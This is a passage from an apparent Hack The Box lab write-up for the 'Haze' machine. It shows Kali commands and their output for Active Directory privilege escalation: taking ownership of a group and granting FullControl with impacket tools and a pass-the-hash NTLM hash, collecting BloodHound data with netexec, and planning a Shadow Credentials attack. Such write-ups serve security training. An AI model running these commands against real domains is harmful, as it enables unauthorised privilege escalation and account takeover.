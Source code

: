 ```shell
┌──(kali㉿kali)-[~]
└─$ impacket-owneredit -action write -target 'support_services' -new-owner 'haze-it-backup$' haze.htb/'haze-it-backup$' -hashes ':735c02c6b2dc54c3c8c6891f55279ebc' -dc-ip haze.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Current owner information below
[*] - SID: S-1-5-21-323145914-28650650-2368316563-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=haze,DC=htb
[*] OwnerSid modified successfully!
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ impacket-dacledit -action write -rights FullControl -target 'support_services' -principal 'haze-it-backup$' haze.htb/'haze-it-backup$' -hashes ':735c02c6b2dc54c3c8c6891f55279ebc' -dc-ip haze.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20250329-225723.bak
[*] DACL modified successfully!
```

## Pivoting to Edward.Martin

Now since we were `owner` of the `SUPPORT_SERVICES` group we created a new `dump` of the `Active Directory` using `BloodHound` to see if we received any new `permissions` and `capabilities`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec ldap 10.129.135.234 -u 'haze-it-backup$' -H '735c02c6b2dc54c3c8c6891f55279ebc' --bloodhound --dns-tcp --dns-server 10.129.135.234 -c All
SMB         10.129.135.234  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.129.135.234  389    DC01             [+] haze.htb\haze-it-backup$:735c02c6b2dc54c3c8c6891f55279ebc 
LDAP        10.129.135.234  389    DC01             Resolved collection methods: trusts, psremote, session, dcom, objectprops, container, acl, rdp, localadmin, group
LDAP        10.129.135.234  389    DC01             Done in 00M 07S
LDAP        10.129.135.234  389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.135.234_2025-03-29_225923_bloodhound.zip
```

Our next step was to use `Shadow Credentials` to `escalate` our `privileges` to `Edward.Martin` from within the `SUPPORT_SERVICES` group which had `AddKeyCredentialLink` set on him.

